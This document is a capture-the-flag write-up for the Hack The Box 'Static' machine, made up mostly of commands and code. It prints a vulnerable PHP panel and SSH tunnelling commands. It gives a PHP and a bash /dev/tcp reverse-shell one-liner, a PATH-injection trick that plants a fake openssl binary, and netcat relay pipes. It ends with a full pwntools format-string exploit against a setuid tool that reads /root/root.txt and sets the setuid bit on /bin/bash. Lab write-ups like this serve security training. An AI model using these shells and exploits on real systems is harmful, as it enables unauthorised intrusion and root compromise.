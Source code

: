 ```php
www-data@web:/var/www/html/vpn$ cat panel.php 
<?php
require "header.php";

if($_SESSION['auth']!="GRANTED"){
        session_destroy();
        header("Location: index.php");
} else {
        if(isset($_POST['cn'])){
                $cn=preg_replace("/[^A-Za-z0-9 ]/", '',$_POST['cn']);
                header('Content-type: application/octet-stream');
                header('Content-Disposition: attachment; filename="'.$cn.'.ovpn"');
                $handle = curl_init();
                $url = "http://pki/?cn=".$cn;
                curl_setopt($handle, CURLOPT_URL, $url);
                curl_setopt($handle, CURLOPT_RETURNTRANSFER, true); 
                $output = curl_exec($handle); 
                curl_close($handle);
                echo $output;
                die();
        }
?>
<table width=100%><tr><td align=right><a href=actions.php?action=logout>-= logout =-</a></td></tr></table>
<center><h3>Static Inc.<br>Internal IT Support portal</h3><br><br>
<form name=vpn method=POST action="<?php echo $_SERVER['PHP_SELF'];?>"><table border=0 cellspacing=5 cellpadding=5>
<tr><td> Common Name = </td><td><input type=text name=cn></input></td><td><input type=submit value="Generate"></input></td></tr>
</table></form>
<br><br><br><br>
<table cellspacing=5 cellpadding=5>
        <tr><td><b>Server</td><td><b>Address</td><td><b>Status</td></tr>
        <tr><td>pub</td><td>172.17.0.10</td><td><font color=red>Offline</td></tr>
        <tr><td>web</td><td>172.20.0.10</td><td>Online</td></tr>
        <tr><td>db</td><td>172.20.0.11</td><td>Online</td></tr>
        <tr><td>vpn</td><td>172.30.0.1</td><td>Online</td></tr>
        <tr><td>pki</td><td>192.168.254.3</td><td>Online</td></tr>
</table>


<?php
}

?>
```


# SSH Tunel

http://pki is running on 192.168.254.3:80 

```bash
ssh -N -L 8010:192.168.254.3:80 -i www-data-id_rsa www-data@static-docker.htb
```

# RCE

https://github.com/neex/phuip-fpizdam

# Shell

* Copy NC binary to 192.168.254.2

* Run on .3 :
```bash
php -r '$sock=fsockopen("192.168.254.2",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```


# Method 1 - /usr/bin/ersatool
* Uses setuid, which is PATH injectable
 ```bash
# Run PATH Injection on PKI Server
export PATH = /tmp/:$PATH
echo -e '#!/bin/bash\n/bin/bash -l > /dev/tcp/192.168.254.2/9001 0<&1 2>&1' > /tmp/openssl

# Open NC Listener on 192.168.254.2 
# /tmp/./nc -nvlp 9001

# Run ersatool on pki server
/usr/bin/ersatool create foo
```


# Method 2 - Binary exploitation on /usr/bin/ersatool

### On Local run

- This will redirect 4242 port running on static.htb to our localhost:4242 through SSH
- Then it will create a fifo and read from 4243 and redirect to 4242

```bash
ssh -L 4242:127.0.0.1:4242 -i www-data-id_rsa -p 2222 www-data@static.htb
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.19.0-16-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Jun 28 16:35:50 2021 from 10.10.14.16
www-data@web:~$ cd /tmp
www-data@web:/tmp$ mkfifo pip
www-data@web:/tmp$ ./nc -nvlp 4243 < pip | ./nc -nvlp 4242 > pip
```

### On 192.168.254.3 run

- This will send the ersatool over TCP to 4243 on the 192.168.254.2 (machine above listening on 4243 and redirecting to our 4242)

```bash
/usr/bin/ersatool >& /dev/tcp/192.168.254.2/4243 0>&1
```

- ersatool running on 192.168.254.3 --> 192.168.254.2:4243 --> 127.0.0.1:4242

### Pwn

- Pwn script will attack 127.0.0.1:4242 which will redirect all the way back to 192.168.254.3 machine

```python
from pwn import *

context.arch = "amd64"
context.log_level = "INFO"

# See https://docs.pwntools.com/en/stable/fmtstr.html#example-automated-exploitation
def send_formatstr_payload(payload: bytes):
    log.debug(f"Sending format string payload {payload}")
    p.sendline(payload)
    return p.recvuntil(b"!\n")

#p = process("./ersatool")
p = remote("127.0.0.1",4242)
elf = ELF("./ersatool")
p.sendline("print")
p.recvregex("# print->CN=")

# Initialize format string exploiter
format_str = FmtStr(execute_fmt=send_formatstr_payload)

# Read stack offset 1, which is a pointer to EXT, otherwise known as the string ".ovpn"
leaked_EXT_PTR = format_str.leak_stack(1)
log.info(f"Leaked address of EXT: {hex(leaked_EXT_PTR)}")
# Rebase ELF representation using leaked adress
base = leaked_EXT_PTR - elf.symbols["EXT"]
elf.address = base
log.info(f"Leaked base address: {hex(base)}")

# Get /root/root.txt
leaked_OUTPUT_DIR = elf.symbols["OUTPUT_DIR"]
log.info(f"Leaked address of OUTPUT_DIR: {hex(leaked_OUTPUT_DIR)}")

format_str.write(leaked_EXT_PTR, '.txt')
format_str.execute_writes()
format_str.write(leaked_EXT_PTR+4, b'\x00\x00\x00\x00')
format_str.execute_writes()
format_str.write(leaked_OUTPUT_DIR,'/roo')
format_str.execute_writes()
format_str.write(leaked_OUTPUT_DIR+4,b't\x00\x00\x00')
format_str.execute_writes()
format_str.write(leaked_OUTPUT_DIR+8,b'\x00\x00\x00\x00')
format_str.execute_writes()

# Lets get shell
leaked_ERSA_DIR = elf.symbols["ERSA_DIR"]
command = "chmod u+s /bin/bash;#"
nullBytes = len(command)%4

# Fill the command with nullbytes at the end
for j in range(0,nullBytes):
	command+="\x00"
	
# Split command every 4 bytes
for index in range(0, len(command), 4):
	format_str.write(leaked_ERSA_DIR+index,command[index : index + 4])
	format_str.execute_writes()
	
p.interactive()
```

